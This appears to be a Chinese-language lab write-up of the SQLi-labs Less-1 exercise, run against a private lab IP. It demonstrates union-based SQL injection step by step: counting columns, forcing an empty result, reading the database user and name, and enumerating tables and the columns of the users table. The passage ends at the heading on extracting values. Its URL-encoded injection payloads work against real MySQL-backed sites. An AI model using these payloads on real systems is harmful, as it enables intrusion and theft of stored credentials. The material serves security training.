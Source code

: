 #### 猜字段排序 ####

使用union select联合查询,后面接查到的字段个数。如下:

`http://10.60.250.214/Less-1/?id=1%27%20union%20select%201,2,3%23`

![11](https://i.imgur.com/uyB1sZ5.png)

可是怎么让我填写的数字显示出来呢,这就是个问题了,查看一下源码:

![12](https://i.imgur.com/T9tGY5M.png)

标记的位置就是关键函数。mysql_fetch_array函数会从返回查询到的数据的一行,这里我查询到的是id=1的数据,改变id能查询到另外的数据,修改id=2。

`http://10.60.250.214/Less-1/?id=2%27%20union%20select%201,2,3%23`

![13](https://i.imgur.com/iQTBrk4.png)

显示出id=2的数据信息。

将id修改为数据表中不可能存在的一个数,前面查询会变为空,执行我们的联合查询语句。这里将id修改为-1。

`http://10.60.250.214/Less-1/?id=-1%27%20union%20select%201,2,3%23`

![14](https://i.imgur.com/EtoeD7e.png)

显示出字段顺序,推测字段中排序顺序应该是id,name,password。

### 获取数据库信息 ###
user():返回当前数据库连接使用的用户

database():返回当前数据库连接使用的数据库

version():返回当前数据库的版本

`http://10.60.250.214/Less-1/?id=-1%27%20union%20select%201,user(),database()%23`

![15](https://i.imgur.com/O4iLDlC.png)

### 获取表 ###

group_concat函数:将查询到的多行结果连接成字符串

`http://10.60.250.214/Less-1/?id=-1%27%20union%20select%201,user(),group_concat(table_name) from information_schema.tables where table_schema=database()%23`

![16](https://i.imgur.com/aW1ZQ52.png)

### 获取字段 ###

`http://10.60.250.214/Less-1/?id=-1%27%20union%20select%201,%20user(),group_concat(column_name)%20from%20INFORMATION_SCHEMA.COLUMNS%20WHERE%20TABLE_NAME=%27users%27%23`

![17](https://i.imgur.com/yXgseWp.png)

### 获取值 ###
